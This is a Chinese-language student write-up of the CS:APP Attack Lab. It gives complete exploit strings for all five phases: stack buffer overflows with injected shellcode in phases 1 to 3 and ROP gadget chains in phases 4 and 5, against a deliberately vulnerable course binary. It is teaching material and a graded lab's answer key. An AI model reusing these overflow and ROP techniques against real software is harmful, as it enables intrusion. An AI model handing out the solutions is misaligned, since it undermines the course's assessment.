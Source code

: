 ## Phase1
phase1很简单，关键就是**用touch1的地址覆盖掉原来的返回地址**
直接用objdump反汇编一下
![attacklab](/assets/imgs/attacklab/attacklab-1.png)
不难注意到在getbuf中的第一行就在栈帧上分配了18个bytes的空间，那么我们只需要首先给出18个bytes的垃圾值，再在后面跟上touch1的地址覆盖掉原来的返回地址，程序就会在ret时跳转到touch1
于是，我们就得到了Phase1的解
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
10 17 40 00 00 00 00 00 //touch1
```
运行结果如下
![attacklab](/assets/imgs/attacklab/attacklab-2.png)

## Phase2
和Phase1的不同在于Phase2需要传递参数，即**把我的cookie传递到rdi寄存器中**
所以需要想办法让程序执行下面的汇编代码
```
movq $0x45730404,%rdi
pushq $0x40173c
ret
```
其中0x40173c是touch2的地址

使用gcc编译再用objdump反汇编，会得到
```
0000000000000000 <.text>:
   0:	48 c7 c7 04 04 73 45 	mov    $0x45730404,%rdi
   7:	68 3c 17 40 00       	push   $0x40173c
   c:	c3                   	ret
```
这样就得到了想要执行的代码，只需要想办法让程序能够执行这些代码就可以了
尝试把这段代码当做输入，那么只需要获取这段代码的地址即可
于是，我们使用gdb，在getbuf上打上断点，即可得到此时的栈顶地址，也就是这段代码的地址：0x55657f98
![attacklab](/assets/imgs/attacklab/attacklab-3.png)
于是尝试以下的输入：
```
48 c7 c7 04 04 73 45 68
3c 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
98 7f 65 55 00 00 00 00
```
会发现非常顺利
![attacklab](/assets/imgs/attacklab/attacklab-4.png)

## Phase3
不难发现Phase3和Phase2的差别并不是很大， 只不过想要传递的值变为了字符串(我的cookie)的地址而已，但我的cookie在原程序中并不存在，所以只能通过我的输入存储在栈上。

我的cookie是0x45730404，转换为ascii码是34 35 37 33 30 34 30 34，文档中说

> The string should consist of the eight hexadecimal digits (ordered from most to least significant) without a leading “0x.”

于是我的第一个解答诞生了
```
34 35 37 33 30 34 30 34
48 c7 c7 98 7f 65 55 68
4d 18 40 00 c3 00 00 00
a0 7f 65 55 00 00 00 00
```
我的想法就是把需要的字符串首先输入，存储在getbuf的栈帧上，然后就可执行如下指令
```
movq $0x55657f98,%rdi 
pushq $0x40184d
ret
```
这其中，0x55657f98是getbuf的栈顶的位置，此时这里存储着需要的字符串，0x40184d是touch3的地址。由于0x55657f98上并不是想要执行的代码，所以在输入中，把返回地址覆盖为0x55657fa0。
出乎我的意料的是竟然没有成功，仔细看文档，发现在Advice中还有这种东西：

>When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.

所以我的字符串并不能放在getbuf的栈帧中....
注意到getbuf是由test调用，二者的关系如下：
```C
unsigned getbuf()
{
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}

void test()
{
	int val;
	val = getbuf();
	printf("...");
}
```
所以接下来尝试把字符串放在test的栈帧中
于是有了第二个答案：
```
48 c7 c7 b8 7f 65 55 68
4d 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
98 7f 65 55 00 00 00 00
34 35 37 33 30 34 30 34
```
与第一个答案不同的是，在我想要执行的指令中，字符串的地址变为了0x55657fb8。这是因为此时字符串在test的栈帧中，我们获取test的栈顶地址
![attacklab](/assets/imgs/attacklab/attacklab-5.png)
就是字符串的地址
于是Phase3就被我们解决了
![attacklab](/assets/imgs/attacklab/attacklab-6.png)

## Phase4
从Phase4开始就进入了ROP阶段，由于栈的随机化等等保护措施，我们并不能像前三个Phase那样
直接注入代码，而是调用程序中本就存在的代码，也就是gadget
Phase4仍然是解决touch2，需要输入我们的cookie
首先我们需要想办法把我们的cookie传递到程序中，由于栈的位置不确定，不能直接使用立即数了，只能想办法把cookie传递给rdi寄存器
我们只需要把我的cookie放到栈顶，然后执行如下指令
```
popq %rdi
ret
```
然而我们翻遍`farm`也只能找到`popq %rax`对应的字节码，于是只能这样
```
popq %rax  //58
movq %rax,%rdi //48 89 c7
```
![attacklab](/assets/imgs/attacklab/attacklab-7.png)
![attacklab](/assets/imgs/attacklab/attacklab-8.png)
二者可以在如上的位置找到，于是我们就得到了解
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ec 18 40 00 00 00 00 00
04 04 73 45 00 00 00 00
12 19 40 00 00 00 00 00
3c 17 40 00 00 00 00 00 //touch2
```
![attacklab](/assets/imgs/attacklab/attacklab-9.png)
尝试运行，发现成功解决

## Phase5
这最后一个Phase同样是通过ROP的方式让程序执行touch3，同样的，需要想办法把我的cookie字符串放在栈上，并想办法把它的地址传递给rdi寄存器
同样由于栈的地址不确定，不能直接解决
注意到`farm.c`中有这样一个函数
```C
/* Add two arguments */
long add_xy(long x, long y)
{
    return x+y;
}
```
其对应的汇编是这样
```
0000000000401923 <add_xy>:
  401923: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  401927: c3                    ret
```
或许我们可以想办法获取rsp的值和cookie字符串在栈上的偏移量，然后利用这个函数来得到字符串的绝对地址
首先想办法获取rsp的值，在`farm.c`的汇编文件中搜索一下，发现只能执行`movq %rsp,%rax`
![attacklab](/assets/imgs/attacklab/attacklab-10.png)
这里的`48 89 e0`即是`movq %rsp,%rax`
接下来我们想执行`movq %rax,%rdi`或者`movq %rax,%rsi`，一搜索，还真有！
![attacklab](/assets/imgs/attacklab/attacklab-11.png)
然而只有`48 89 c7`，也就是`movq %rax,%rdi`
那么我们只能想办法把偏移量传给rsi了，我们这时候显然并不知道偏移量，但我们知道如何把偏移量传递给寄存器，也就是使用popq指令，然而同样的，我们只能找到`popq %rax`对应的字节码，接下来的任务就是想办法把rax的值传给rsi了
经过一系列的尝试(这里就不写了)，我们最后发现只有这么一套操作是可行的：
```
movl %eax,%ecx
movl %ecx,%edx
movl %edx,%esi
```
于是我们可以暂时的得到我们的答案了
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3f 19 40 00 00 00 00 00 //movq %rsp,%rax
12 19 40 00 00 00 00 00 //movq %rax,%rdi
ec 18 40 00 00 00 00 00 //popq %rax
XX 00 00 00 00 00 00 00 //偏移量
af 19 40 00 00 00 00 00 //movl %eax,%ecx
73 19 40 00 00 00 00 00 //movl %ecx,%edx
8e 19 40 00 00 00 00 00 //movl %edx,%esi
23 19 40 00 00 00 00 00 //lea (%rdi,%rsi,1),%rax
12 19 40 00 00 00 00 00 //movq %rax,%rdi 再把字符串的地址传递给rdi
4d 18 40 00 00 00 00 00 //touch3
34 35 37 33 30 34 30 34 //Cookie字符串
```
有了这些，也不难确定偏移量XX为0x48了，尝试运行
![attacklab](/assets/imgs/attacklab/attacklab-12.png)
到此，全部解决！

